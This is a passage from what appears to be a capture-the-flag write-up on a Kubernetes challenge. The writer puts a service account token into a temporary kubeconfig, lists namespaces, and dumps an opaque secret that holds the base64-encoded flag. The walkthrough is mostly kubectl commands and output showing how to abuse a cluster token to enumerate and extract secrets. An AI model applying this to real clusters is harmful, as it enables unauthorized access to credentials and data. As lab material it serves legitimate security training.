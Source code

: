 Configuring ```KUBECONFIG``` along with our, Service Account Token

```c
$ touch /tmp/c
touch /tmp/c
$ KUBECONFIG=/tmp/c /tmp/kubectl config set-credentials foo --token=$token
KUBECONFIG=/tmp/c /tmp/kubectl config set-credentials foo --token=$token
User "foo" set.
```

Getting ```namespaces```,

```c
$ KUBECONFIG=/tmp/c /tmp/kubectl get ns
KUBECONFIG=/tmp/c /tmp/kubectl get ns
NAME                     STATUS    AGE
default                  Active    4d
kube-node-lease          Active    4d
kube-public              Active    4d
kube-system              Active    4d
super-secret-namespace   Active    4d
```

There is an interesting namespace ```super-secret-namespace```

Lets try viewing secrets for this namespace,

```c
$ KUBECONFIG=/tmp/c /tmp/kubectl --namespace=super-secret-namespace get secrets
KUBECONFIG=/tmp/c /tmp/kubectl --namespace=super-secret-namespace get secrets
NAME                  TYPE                                  DATA      AGE
default-token-8pzrw   kubernetes.io/service-account-token   3         4d
ulta-secure-secret    Opaque                                1         3d
$ KUBECONFIG=/tmp/c /tmp/kubectl --namespace=super-secret-namespace get secrets ulta-secure-secret
KUBECONFIG=/tmp/c /tmp/kubectl --namespace=super-secret-namespace get secrets ulta-secure-secret
NAME                 TYPE      DATA      AGE
ulta-secure-secret   Opaque    1         3d
```

There is an ```Opaque``` secret type named ```ulta-secure-secret```,

Dumping that secret as YAML,

```c
$ KUBECONFIG=/tmp/c /tmp/kubectl --namespace=super-secret-namespace get secrets ulta-secure-secret -o yaml
KUBECONFIG=/tmp/c /tmp/kubectl --namespace=super-secret-namespace get secrets ulta-secure-secret -o yaml
apiVersion: v1
data:
  hmm: aW5jdGZ7V293X3lvdV9rbm93X0s4c192M3J5X3czbGxfZ2dfOil9
kind: Secret
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"v1","data":{"hmm":"aW5jdGZ7V293X3lvdV9rbm93X0s4c192M3J5X3czbGxfZ2dfOil9"},"kind":"Secret","metadata":{"annotations":{},"name":"ulta-secure-secret","namespace":"super-secret-namespace"},"type":"Opaque"}
  creationTimestamp: 2022-01-05T13:51:28Z
  managedFields:
  - apiVersion: v1
    fieldsType: FieldsV1
    fieldsV1:
      f:data:
        .: {}
        f:hmm: {}
      f:metadata:
        f:annotations:
          .: {}
```